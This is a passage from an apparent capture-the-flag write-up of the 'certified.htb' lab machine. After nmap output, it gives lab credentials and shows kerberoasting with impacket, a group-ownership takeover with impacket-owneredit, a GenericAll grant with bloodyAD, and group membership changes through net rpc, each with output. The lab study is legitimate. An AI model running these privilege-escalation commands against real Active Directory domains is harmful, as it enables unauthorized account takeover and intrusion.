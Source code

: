 ```bash
49683/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
49772/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-24T17:30:58
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25299.13 seconds
```

### Assumed Breach
```
judith.mader:judith09
```


### Lateral movement (judith.mader --> management_svc)
We can perform kerberoasting on the management_svc user:
```bash
sudo rdate -n 10.10.11.41

impacket-GetUserSPNs -request -dc-ip 10.10.11.41 certified.htb/judith.mader
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName               Name            MemberOf                                    PasswordLastSet             LastLogon                   Delegation 
---------------------------------  --------------  ------------------------------------------  --------------------------  --------------------------  ----------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb  2024-05-13 17:30:51.476756  2024-11-24 18:28:25.690046    
```
> Can't be cracked.
{: .prompt-info }


Start by making ourselves owner of the management group:
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
```

Next, we can add judith.mader to the management group by first giving ourselves GenericAll permissions over it:
```bash
bloodyAD --host "10.10.11.41" -d "certified.htb" -u "judith.mader" -p "judith09" add genericAll "management" "judith.mader"           
[+] judith.mader has now GenericAll on management

net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```
![Pasted image 20241124120143.png](/images/Pasted image 20241124120143.png){: .normal }
